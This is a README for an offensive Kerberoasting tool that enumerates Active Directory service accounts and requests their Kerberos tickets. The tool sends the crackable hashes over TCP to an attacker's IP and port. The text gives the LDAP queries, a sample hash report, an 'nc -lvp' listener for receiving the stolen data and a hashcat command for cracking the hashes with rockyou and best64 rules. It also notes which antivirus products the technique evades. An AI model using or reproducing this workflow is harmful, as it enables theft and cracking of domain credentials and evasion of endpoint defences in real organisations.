

### YAKRR
#### Yet Another KerbeRoast Recipe
Based on https://github.com/GhostPack/SharpRoast, even if deprecated it works quite well.
I slighty modified the code creating a class **DCEnumNC.KBRoast** with only one public method
*RoastNow* that accept as arguments an array of strings, exactly the same interface of the original
project. See the comment on the code to explore the parameters list.
I have also coded a *helper* class **DCEnumNC.EnumDC** with (at the moment) only 
one public static method to simply get the DC name server and the IP.<br>
The console application, that actually wraps the calls to the class methods, accept 3 parameters:
1. The attacker IP used to send the report
2. The port of the attacker IP
3. The command parameter *forwarded* to the RoastNow method

How does it works?
1. First the program check if the machine has joined a domain using the method **EnumDC.GetDCInfo()**
<br>If an error occurs probably the machine is not part of a domain, otherwise the Domain controller
name server and IP are returned as string.
2. Then the method **KBRoast.RoastNow(args)** is called passing the second argument as passed to 
the program
```
string[] KBargs = { args[2] };
sb.Append(KBRoast.RoastNow(KBargs)); 
```
3. If the argument passed is *all* the LDAP query will try to retrive all the users, 
except krbtgt<sup>1</sup> obects as follows:
```
(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt))
```
4. If a username is provided, e.g. zinz, the query will be the follows:
```
(&(samAccountType=805306368)(servicePrincipalName=*)(samAccountName=zinz))
```

The query retrive all the user objects <sup>2</sup>, having the SPN attribute set.

5. For each found user the private method **GetDomainSPNTicket** is called and the program issue a
Kerberos token request, if succeed the hash is returned in a hashcat format, ready to be parsed using
the mode **13100  Kerberos 5 TGS-REP etype 23**. The encryption (eType) expected is 23 *rc4-hmac*<sup>3</sup>
and in case of error parsing the cipher text the program will return the *TicketHexStream* that we
could try to parse using the powershell function *Get-KerberoastHashFromAPReq* from the following
script: https://github.com/leechristensen/Random/blob/master/PowerShellScripts/Get-KerberoastingHash.ps1 
<br>The program creates a report having the following format:
```
DC name: DC01.zinz.local, IP: 192.168.1.100
SamAccountName         : hack
DistinguishedName      : CN=Hack Her,CN=Users,DC=zinz,DC=local
ServicePrincipalName   : http/zinz.org
Hash                   : $krb5tgs$23$*$zinz.local$http/zinz.org*$51A8E402265B9E3C7FFCE1DFC3134234$60870EA
                         3822A8AC2CBDA715E7ABEC906954D1B9849040AC1CE29B0BCCDE01ED042AEB0DED04F70F25E1BD29
                         6E1FF304AE6E24FAB92C67566BB5005A22F21F27268B1EC3B5F6F0F573B2EE8BDBC0A53716420E54
                         0E2FD0F439BBA985D5D1746749A0DFBF78955FD038E8F6FBE4F5C31B23FFA6FF625695B184EFCFB1
                         116F065514B479A5830196029344152414D14771BD2DD1AAB698DA998BD00AD66D4911B8466DEE07
                         A0DE3515A98FCBC9F4BF4CD80CDFE2AA6F2C71A463CA1F0FD9C7EE3B22CB339C3A7ED7260E07CA02
                         5F3E2DE9DE2BDDE354744B88AC075D4ED3F533B2F19FAEC645DCCECF5A03B0985BD55423D6DB2142
                         7507AB166A8B3BA6AFF603E12296A8FCFD644DD41AF70EB7CFBA8B0FE2E55A462BEB43C4759490C0
                         AA92CE10E2DECDD9A9A7839E4147ADE8D613C30250075E26C2FD0B12C2CD6B5A4AF324EC051BC1A6
                         D1822554EAEC5E4518BEB7925673585BCA19A554C1EAD351D6BA9E42CA98510CA190B2539F6B29EF
                         A9C28B7DAFFDE7B32227058179A6830F461365EB9FE53E0787686085E0A321AA3504B904F6D58FB9
                         08D64094A95115394111B2AD474E0FF9A77C62A07949D611051F7F1EBE4115763BE21104233CAE0D
                         F2E2C6E27E11C8B473CE514ECED538B98ADFA4FB77527BAC1E6AF2300FFCA1C56E3DC3C3D95FC2AE
                         1508D7C106C29414979D2E80C677B82EDD0FA91F73DF6D4D4EEBFE30A67DB58D99CFCF05AC382951
                         D45DC4510D14B307D869465F90FEBA2E3254396B4735A5D81DDA6D6F3C04F078DFEF7F40CF8FD3FE
                         D1C2466DEF72AEBD8F27AEE44375FD42E95627902887D427B28EAE7901C8FBD8051A0B758F39E457
                         4BCE0CD6E8B85EF30617D597C153F0163EED64FDAE91CF0A9F77E3BD813D389499AB2C0A5C4EB6B8
                         20AFB6F20929E95CCCAEB775EC6A5316BB21C3209A7065A8D314D9BA2BCD990D11EE47822B24DD1D
                         2DD8B8CF36EC2D9F32C26D9F54180A6F7B98FAEB3CE488766F12A60988C2B64D9A93E627A5D58E69
                         F0C3E38A6E80F0A9D8B03FD415F863C8743D082F3124A4C4B1AE623D21D65CCAAA9457ADC3667CB3
                         DFD63E3D36C9D2EE89A13D9C4996694D623B373A1A42C5E5B030F471B18EE26DF7BC634712D2DC1F
                         5D1F3D852C54835E7024DF57C2A4698A23EE7BBD903DF577604D872A40341FC922B7D841D5694974
                         417E0CFF812AD9480F96227839D33CCD43AA791D42083BA36709680CE1E29AD9E106167C40913924
                         CBE6FFBB34C5DFDB81F9B53DA8C5DA5A28F809A3B192A3178D6FBDB0ACC3305D421B7C0FBB168222
                         0CCBC20C798C9B129CDBB87950D19BB44C42E3DA8C54AD9CFDCB8A07720618617AEAD750398258F4
                         5DAD90CAE1ED1111095AB6840BB0BDB3C4C1DC0DBB861F49421D251BCA5AD294EE3969B4BB194A43
                         371BD1C61D9
...
```

The report is finally sent to the attacker using a network TCP stream. On the attacker we can save
the stream to a text file using the following command:

    nc -lvp <port> > kbrep.txt
    
As said the IP and the port of the attacker are passed as arguments 1 and 2 to the program.

6. Finally we can try to reverse the hash locally using hashcat<br>

Here I have found 2 passwords using the rockyou wordlist, please note that the second one *Toor1234* 
has been added on the wordlist and it's not present on the default rockyou file. The command used was:
```
hashcat.exe -a 0 -m 13100 -w 3 --status --status-timer=60 --potfile-disable -p : -O --hwmon-temp-abort=85 -r rules\best64.rule kerbTicketHash.txt wordlists\rockyou.txt
```
#### About AV bypass
Using this technique I was able to bypass some well known AV solutions but not Windows defender! 
To low the fingerprint on the victim we could try to get back the encoded requested ticket without
parsing to the hashcat format, doing this operation locally.

---
<small><sup>1</sup> The KRBTGT account is a local default account that acts as a service account for 
the Key Distribution Center (KDC) service. More info at: https://adsecurity.org/?p=483
<br><sup>2</sup> The filter (sAMAccountType=805306368) for user objects is more efficient than 
the usual filters<br>
<sup>3</sup> https://www.iana.org/assignments/kerberos-parameters/kerberos-parameters.xhtml#kerberos-parameters-1 
</small>


